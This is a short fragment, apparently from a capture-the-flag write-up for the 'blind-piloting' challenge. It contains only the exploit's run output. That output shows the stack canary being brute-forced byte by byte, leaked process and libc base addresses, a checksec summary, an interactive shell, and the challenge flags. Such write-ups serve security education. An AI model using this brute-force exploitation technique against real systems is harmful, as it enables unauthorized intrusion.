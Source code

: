```
b'pctf{34zy_fl4g_h3r3_n0t_muc4_m0r3}'
b'f04948'
b'f0494894'
b'f049489414'
b'f04948941456'
b'f0494894145600'
b'f049489414560000'
0x561494484000
HAVE PROCBASE
[*] '/pwd/datajerk/b01lersctf/blind-piloting/blindpiloting'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for 'blindpiloting'
0x7f406a3a6270
0x7f406a32b000
HAVE LIBCBASE
[*] Switching to interactive mode

> $ cat flag2.txt
pctf{Eh_2_brute_Brut3_BRUT3!}
```






